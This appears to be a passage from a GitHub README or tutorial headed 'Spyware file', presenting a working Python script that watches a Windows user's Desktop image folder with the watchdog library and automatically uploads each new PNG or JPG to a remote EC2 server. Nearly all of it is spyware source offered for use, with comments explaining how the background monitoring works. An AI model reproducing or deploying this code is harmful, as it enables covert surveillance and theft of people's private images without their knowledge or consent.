 Now , python server will be running.



## Spyware file:

```python
import os
import time
import requests
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

WATCH_FOLDER = "C:/Users/gsuma/OneDrive/Desktop/imgs"  # Folder to monitor

UPLOAD_URL = "http://<public_ip of ec2>:5000/upload"

os.makedirs(WATCH_FOLDER, exist_ok=True)  
# event handler is to detect new files in the folder
class ImageHandler(FileSystemEventHandler): # this is inheriting from FSEH
    def on_created(self, event):
         # ignore directories, only process files
        if event.is_directory:
            return
        file_path = event.src_path

        # check if the file is an image
        if file_path.lower().endswith((".png", ".jpg", ".jpeg")):
            print(f"new image detcted: {file_path}")
            upload_image(file_path)

# funtion to upload the deteced image to the servr
def upload_image(file_path):
    with open(file_path, "rb") as file:
        response = requests.post(UPLOAD_URL, files={"file": file})
        print(f"uploded {file_path}: {response.text}")

if __name__ == "__main__":
    # set up the obsever to monitor the folder
    event_handler = ImageHandler()
    observer = Observer()
    #Creates an observer that watches for changes in the folder.
    observer.schedule(event_handler, WATCH_FOLDER, recursive=False)
    #recursive=False means it won't check inside subfolders, only the main folder.'
    # on_created will run everytime a change occurs
    observer.start()
    print(f"monitoring folder: {WATCH_FOLDER}")
    try:
        while True:
            time.sleep(1)  # keep the script runing
    except KeyboardInterrupt:
        observer.stop()  # stop monitooring when interupted
    observer.join()  # wait for the obsever to clean up
  

'''

he Observer runs in a separate background thread, continuously
monitoring the folder.

Meanwhile, the while True: loop keeps the main thread alive.

When a file is created, watchdog triggers on_created() in the background
without blocking the main loop.
```